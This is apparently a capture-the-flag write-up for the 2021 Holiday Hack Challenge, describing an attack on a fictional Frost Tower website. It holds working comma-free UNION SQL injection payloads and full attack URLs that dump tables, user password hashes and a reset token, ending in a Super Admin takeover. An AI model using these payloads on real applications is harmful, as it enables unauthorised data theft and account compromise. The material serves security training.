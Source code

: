 <h1 id="objective-12-frost-tower-website-checkup">Objective 12: Frost Tower Website Checkup</h1>
<p><strong>Location: Studio, Frost Tower, 16<sup>th</sup> Floor, <a href="https://staging.jackfrosttower.com/">https://staging.jackfrosttower.com/</a></strong><br>
<strong>Troll: Ingreta Tude</strong><br>
<strong>Hints provided by Ribb Bonbowford after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md">Elf Code Python</a></strong></p>
<p>This objective is to perform a security assessment of the Frost Tower website with the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> being provided.<br>
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.</p>
<h3 id="auth-flaw">Auth flaw</h3>
<p>The application tracks the user’s session in <code>session</code> (login name, user’s role etc.).<br>
It was found that a valid session is also set, if you complete the <a href="https://staging.jackfrosttower.com/contact">contact form</a> whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.</p>
<pre><code>app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength &gt;= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
</code></pre>
<h3 id="sqli-flaw">SQLi flaw</h3>
<p>Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.</p>
<pre><code>app.get('/detail/:id', function(req, res, next) {
    session = req.session;
    var reqparam = req.params['id'];
    var query = "SELECT * FROM uniquecontact WHERE id=";
    if (session.uniqueID){
        try {
            if (reqparam.indexOf(',') &gt; 0){
                var ids = reqparam.split(',');
                reqparam = "0";
                for (var i=0; i&lt;ids.length; i++){
                    query += tempCont.escape(m.raw(ids[i]));
                    query += " OR id="
                }
                query += "?";
            }else{
                query = "SELECT * FROM uniquecontact WHERE id=?"
            }
        } catch (error) {
            console.log(error);
            return res.sendStatus(500);
        }

        tempCont.query(query, reqparam, function(error, rows, fields){
</code></pre>
<p>As only caveat it has to be ensured, that the <strong>comma character has to be avoided</strong> in the SQL statement as the application splits up the query at the commas.<br>
Furthermore it is important to note that “union” requires that the <strong>number of columns on both sides match</strong>.<br>
Due to the fact, that the <code>union</code> database has 7 columns, it has to be ensured, that also on the right hand side of the <code>union</code> 7 columns have to be delivered.</p>
<p>This URL is the base for all following SQLi attacks:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id union
</code></pre>
<p>During research a <a href="https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/">very good explanation</a> about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.</p>
<h3 id="getting-access-to-jack-frosts-todo-list">Getting access to Jack Frosts todo list</h3>
<p>We can obtain a list of all interesting tables in the MySQL database using this SQL statement:</p>
<pre><code>select table_name from information_schema.tables;
</code></pre>
<p>As <code>information_schema</code> has 23 columns and we are interested in column #3 (<code>table_name</code>), this can be rewritten for our SQLi flaw:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.3 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 join (select 23)i23 union select * from information_schema.tables)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This reveals, that in addition to the tables <code>emails</code> and <code>uniquecontact</code>, which are known as they are used in the application and in the provided schema of encontact <code>encontact_db.sql</code>, there is an additional table <code>todo</code>, which seems to be the todo list we need access to.</p>
<p>Using the SQL statement</p>
<pre><code>select column_name from information_schema.columns where table_name="todo"
</code></pre>
<p>the list of columns in the table <code>todo</code> can be obtained.<br>
As <code>columns</code> has 22 columns with <code>column_name</code> being at position #4, this can be rewritten for the SQLi as follows:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.4 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 union select * from information_schema.columns where table_name="todo")F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>we can see, that this table consists out of 3 columns: <code>id</code>, <code>note</code>, <code>completed</code>.<br>
The <code>note</code> column can then be extracted using</p>
<pre><code>select note from todo
</code></pre>
<p>Rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.2 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 union select * from todo)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This brings up Jack Frosts todo list:</p>
<ul>
<li>Buy up land all around Santa’s Castle</li>
<li>Build bigger and more majestic tower next to Santa’s</li>
<li>Erode Santa’s influence at the North Pole via FrostFest, the greatest Con in history</li>
<li>Dishearten Santa’s elves and encourage defection to our cause</li>
<li>Steal Santa’s sleigh technology and  build a competing and way better Frosty present delivery vehicle</li>
<li>Undermine Santa’s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem</li>
<li>Force Santa to cancel Christmas</li>
<li>SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide… so the whole world sees that Frost saved the Holiday Season!!! Bwahahahahaha!</li>
<li>With Santa defeated, offer the old man a job as a <strong>clerk</strong> in the Frost Tower Gift Shop so we can keep an eye on him</li>
</ul>
<hr>
<h3 id="bonus-getting-super-admin-privileges-in-the-application">Bonus: Getting Super Admin privileges in the application</h3>
<p>Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id%20union%20select%20*%20from%20users--
</code></pre>
<p>This contains for example:</p>
<ul>
<li>Super Admin</li>
<li>root@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i</li>
<li>1</li>
<li>November 23rd, 2021 11:00:00</li>
<li>December 18th, 2021 7:05:17</li>
</ul>
<hr>
<ul>
<li>Admin</li>
<li>admin@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>FTkzq07Az57M.Q8jw7ehB…h5Vdc3Vw04zQzJIt294bgwg7.aV1GC</li>
<li>2</li>
<li>December 3rd, 2021 11:00:00</li>
</ul>
<p>This shows, that we have a “Super Admin” with the email address root@localhost defined in the system.</p>
<p>Next the “<a href="https://staging.jackfrosttower.com/forgotpass">forgot password</a>” function of the application can be used to increase the privileges.<br>
When resetting the password for a user, a random token is created and stored in the user database. If we are able to get hold of this token, we can change the password of the user and have full control.</p>
<p>The token for “root@localhost” can be retrieved using this URL:</p>
<pre><code>https://staging.jackfrosttower.com/detail/-1,-id%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%203)c%20join%20(select%20F.7%20from%20(select%20*%20from%20(select%201)h%20join%20(select%202)i%20join%20(select%203)j%20join%20(select%204)k%20join%20(select%205)l%20join%20(select%206)m%20join%20(select%207)n%20union%20select%20*%20from%20users%20where%20email=%22root@localhost%22)F)d%20join%20(select%204)e%20join%20(select%20%222021-01-01%2000:00:00%22)f%20join%20(select%20%222021-01-01%2000:00:00%22)g;--
</code></pre>
<p>The timestamps in the above URL are required, as the values of these columns undergo a date conversion. This throws an exception if no valid date format is supplied:</p>
<pre><code>TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         &lt;% }else { %&gt;
 &gt;&gt; 29|                             &lt;%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %&gt;
    30|                         &lt;% } %&gt;                     
    31|                         &lt;/li&gt;
    32|                     &lt;/ul&gt;

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:45:26)
    at Array.forEach (&lt;anonymous&gt;)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
</code></pre>
<p>Using the URL <a href="https://staging.jackfrosttower.com/forgotpass/token/">https://staging.jackfrosttower.com/forgotpass/token/</a>{retrieved token} it is possible to set a new password for the “Super Admin” user.<br>
Being logged on as this user, a new personalized user with “Super Admin” privileges can be created.</p>
<p><strong>Achievement: Frost Tower Website Checkup</strong></p>

